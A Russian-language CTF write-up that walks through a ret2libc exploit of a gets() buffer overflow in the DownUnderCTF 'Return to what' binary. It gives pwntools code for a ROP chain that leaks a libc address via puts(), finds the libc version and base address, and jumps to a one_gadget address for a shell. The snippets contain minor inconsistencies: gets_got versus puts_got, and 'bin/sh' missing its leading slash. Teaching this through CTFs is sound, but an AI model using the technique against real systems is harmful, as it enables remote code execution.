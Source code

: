 # Return to what (200 points, 149 solves)

> This will show my friends!
>
> nc chal.duc.tf 30003

*Дисклеймер:* это, пожалуй, самое базовое задание из этой категории, поэтому я постараюсь его нормально
описать, а в будущем буду ссылаться сюда.

В файлах находим [return-to-what](./return-to-what). Давайте откроем его в Ghidra. Нам повезло, в бинаре есть
символы, поэтому мы легко находим `main()`:
```c
undefined8 main(void)
{
  puts("Today, we\'ll have a lesson in returns.");
  vuln();
  return 0;
}
```

Ничего интересного, идём в `vuln()`:
```c 
void vuln(void)

{
  char local_38 [48]; 
  puts("Where would you like to return to?");
  gets(local_38);
  return;
}
```

Опа, сильно напоминает прошлое задание — [Shell this!](../Shell%20this!). Тут и та же проблема с `gets()`, и структура 
похожа. Вот только в списке функций нет той, которая бы нам shell дала. Что же делать, куда нам прыгать? Добро 
пожаловать в Ret2Libc.

Первый шаг у нас не меняется — надо найти оффсет. В прошлом write-up'е я это подробно описал. А вот дальше нужно найти
адрес, на которой нужно перейти. Для этого нужно сделать несколько вещей: "слить" адрес одной из "системных" функций, 
найти версию libc (для этого, возможно, потребуется слить больше одного адреса), найти базовый адрес libc, вызвать 
что-то типа `system("bin/sh")`. Как это всё делается? Давайте по порядку.

### Сливаем адрес(а)

Я думаю не должно быть секретом, что есть куча "стандартных" функций, которые находятся в libc. Например, мы можем
использовать `puts()`, но ведь не мы писали реализацию. Она живёт в libc (если мы говорим о динамической линковке).
Для того, чтобы разобраться с этой магией, необходимо познакомиться с GOT и PLT. В рамках write-up'а это делать
бессмысленно, лучше прочитать детальную статью. Например, [эту](https://itnan.ru/post.php?c=1&p=323904). Нам нужно 
узнать адреса функций из GOT таблицы. Pwntools умеет это делать, но ведь нам надо его как-то вывести на экран.
Давайте вызовем `puts()`. Выглядит это примерно так:
```python
def leak_libc(io, offset):
    r = ROP(e)
    puts = e.plt['puts']  # берём адрес puts(), чтобы её можно было вызвать
    pop_rdi = (r.find_gadget(['pop rdi', 'ret']))[0]  # вытаскиваем так называемый "гаджет", про него позже
    main = e.symbols['main']  # берём адрес main — мы туда ещё вернёмся

    gets_got = e.got['gets']  # этот адрес мы будем сливать, может быть любая функция, которую можете найти в бинаре

    p = offset * b'A' + p64(pop_rdi) + p64(gets_got) + p64(puts) + p64(main)  # читайте ниже

    print(io.recv())
    io.sendline(p)  # отправляем нашу строку
    data = io.recvline().strip().ljust(8, b'\x00')  # читаем ответ
    leak = u64(data)
    print('leaked address: ' + hex(leak))  # выводим адрес на экран
```

Самая главная строка — это:
```python
    p = offset * b'A' + p64(pop_rdi) + p64(puts_got) + p64(puts) + p64(main)
```

С оффсетом всё ясно — переполняем буфер. Гаджет `pop_rdi` нужен для того, чтобы положить какое-то значение в
регистр `rdi`. Зачем? А там хранится первый аргумент, вызываемой функции. Если для функции нужно больше аргументов, то 
нужно искать дополнительные гаджеты и класть значения в правильные регистры. Вот [тут](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI)
можно почитать подробнее. Но в нашем случае у `puts()` всего лишь 1 аргумент. Кладём мы туда адрес `gets_got` и вызываем
`puts()`. После этого, чтобы программа не закончила своё выполнение, мы возвращаемся в `main()` (или можно сразу в
`vuln()`). Дальше мы отправляем эту строку и получаем ответ.

А почему мы возвращаемся в `main()`? Разве нельзя дать программе остановиться, адрес-то мы получили, просто запустим
ещё раз? Тут не всё так просто. В реальности libc загружается в случайное место, т.е. абсолютные адреса постоянно 
меняются между запусками программы. Постоянны лишь относительные адреса функций относительно базового адреса libc и 3 
последних байта (т.к. у адреса libc последние три байта равны 000). Именно это позволяет найти точную
версию libc. Для этого достаточно вводить слитые адреса [здесь](https://libc.blukat.me). В принципе в этом случае
достаточно ввести адрес `puts` и выбрать ту версию libc, в которую входит `amd64`. Но если нет
уверенности, всегда можно слить дополнительные адреса. В этой задаче хватило `puts` и `__libc_start_main`, и мы получаем
`libc6_2.27-3ubuntu1_amd64`. С этого же сайта можно скачать файл.

### Вычисляем базовый адрес и получаем shell

Раз уж у нас есть libc, то мы можем взять адрес функции из него, сравнить с нашим слитым адресом и найти базовый адрес 
libc в конкретный запуск программы. После этого мы можем найти строку `"/bin/sh"`, адрес `system()` и вызвать её, как 
мы это делали раньше. Но я решил пойти по другому пути. Есть такая прикольная программка [one_gadget](https://github.com/david942j/one_gadget).
Она позволяет найти в libc 1 гаджет, который нам сразу даст shell. Использование простое:
```shell script
$ one_gadget libc6_2.27-3ubuntu1_amd64.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
``` 

Сразу скажу, что не стоит думать, что любой адрес из выведенных сработает. Более того, здесь сработал
второй — первый, к сожалению, приводил к крашу. Как же воспользоваться этим чудом? А всё очень просто:
```python
libc = ELF('libc6_2.27-3ubuntu1_amd64.so')
libc_base = leak - libc.symbols['puts']
p = offset * b'A' + p64(libc_base + 0x4f322)
print(io.recv())
io.sendline(p)
io.interactive()
```

Ну и результат запуска такой:
```shell script
$ ls
flag.txt return-to-what
$ cat flag.txt
DUCTF{ret_pUts_ret_main_ret_where???}
```

Поздравляю всех с вашим первым Ret2Libc! Ну и даже немного Return Orienting Programming зацепили. Полный код эксплоита
найдёте в файле [return-to-what.py](./return-to-what.py).